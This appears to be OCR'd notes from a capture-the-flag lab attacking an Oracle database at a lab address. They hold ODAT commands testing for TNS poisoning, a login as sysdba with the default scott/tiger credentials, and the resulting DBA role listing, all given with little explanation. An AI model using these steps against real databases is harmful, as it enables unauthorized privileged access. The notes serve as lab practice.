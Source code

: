 
sudo tcpdump -i tun0 icmp

no output


python3 odat.py all -s 10.10.10.82 -d XE -U scott -P tiger


kali@kali:/opt/odat$ python3 odat.py tnspoison -s 10.10.10.82 -d XE -U scott -P tiger --test-module

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning


SELECT  table_name, owner FROM  dba_tables WHERE  owner='schema_name' ORDER BY  owner, table_name;



sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
SYS                            CONNECT                        YES YES NO
SYS                            CTXAPP                         YES YES NO
SYS                            DATAPUMP_EXP_FULL_DATABASE     YES YES NO
SYS                            DATAPUMP_IMP_FULL_DATABASE     YES YES NO
SYS                            DBA                            YES YES NO
SYS                            DBFS_ROLE                      YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
SYS                            EXP_FULL_DATABASE              YES YES NO
SYS                            GATHER_SYSTEM_STATISTICS       YES YES NO
SYS                            HS_ADMIN_EXECUTE_ROLE          YES YES NO
SYS                            HS_ADMIN_ROLE                  YES YES NO
SYS                            HS_ADMIN_SELECT_ROLE           YES YES NO
SYS                            IMP_FULL_DATABASE              YES YES NO
SYS                            LOGSTDBY_ADMINISTRATOR         YES YES NO
SYS                            OEM_ADVISOR                    YES YES NO
SYS                            OEM_MONITOR                    YES YES NO

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            PLUSTRACE                      YES YES NO
SYS                            RECOVERY_CATALOG_OWNER         YES YES NO
SYS                            RESOURCE                       YES YES NO
SYS                            SCHEDULER_ADMIN                YES YES NO
SYS                            SELECT_CATALOG_ROLE            YES YES NO
SYS                            XDBADMIN                       YES YES NO
SYS                            XDB_SET_INVOKER                YES YES NO
SYS                            XDB_WEBSERVICES                YES YES NO
SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO
